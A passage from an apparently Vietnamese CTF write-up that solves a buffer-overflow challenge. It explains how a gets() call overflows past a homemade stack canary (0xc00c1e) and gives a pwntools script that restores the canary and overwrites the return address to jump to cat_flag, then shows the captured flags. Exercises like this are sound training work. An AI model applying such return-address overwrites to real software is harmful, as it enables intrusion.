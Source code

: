 và mình lấy được flag là:
**KMA{174a65f44085ab0d277ce69177f1fd7f}**
## Bufferoverflow-homemade-cookie-v1

mình đọc file C được:
![image](https://hackmd.io/_uploads/S1iGQklPT.png)

thấy chương trình chạy qua hàm vun mà hàm này cho phép chúng ta nhập qua hàm gets() tùy ý số byte có thể dẫn đến lỗi buffer overflow nhưng trong hàm lại có 1 lớp bảo vệ chính là biến i nằm ở phía trên buff ở trên stack. Nếu ta nhập tràn qua biến này mà khác với giá trị bạn đầu của i thì chương trình sẽ kết thúc

![image](https://hackmd.io/_uploads/SJtdQ1ewa.png)
vậy nên khi nhập trà đến biến i thì chúng phải ghi đúng giá trị của nó là 0xc00c1e rồi ghi tràn tiếp lên đến địa chỉ trả về rồi ghi đè vào đó là địa chỉ hàm **cat_flag** có chứa shellcode mà chúng ta mong muốn

![image](https://hackmd.io/_uploads/BkiTmkgwp.png)
mình nhập thử BBBB và thấy sẽ cần 16 byte để đến biến i ghi đúng giá trị của nó là 0xc00c1e rồi ghi thêm 12 byte nữa để đến địa chỉ trả về và ghi địa chỉ hàm cat_flag

![image](https://hackmd.io/_uploads/HyXLrkgv6.png)
vậy hãy giải quyết bài này thôi:
```python=
#!/usr/bin/python3.7

from pwn import *
context.binary = exe = ELF('./Bufferoverflow-homemade-cookie-v1')
p = process(exe.path)

input()
payload = b'A'* 16
payload += p32(0xc00c1e)
payload += b'A'*12
payload += p32(exe.sym['cat_flag'])
p.sendline(payload)

p.interactive()
```

![image](https://hackmd.io/_uploads/HkXMKkgw6.png)
mình debug động và kiểm tra stack thấy đã đúng với ý đồ mà chúng ta mong muốn và nó sẽ nhảy vào hàm cat_flag đọc flag cho chúng ta 

![image](https://hackmd.io/_uploads/B1QVKkeDT.png)

![image](https://hackmd.io/_uploads/SJC9Yklvp.png)

và mình nhận được flag là: 
**KMA{dont invent it with your small mind}**
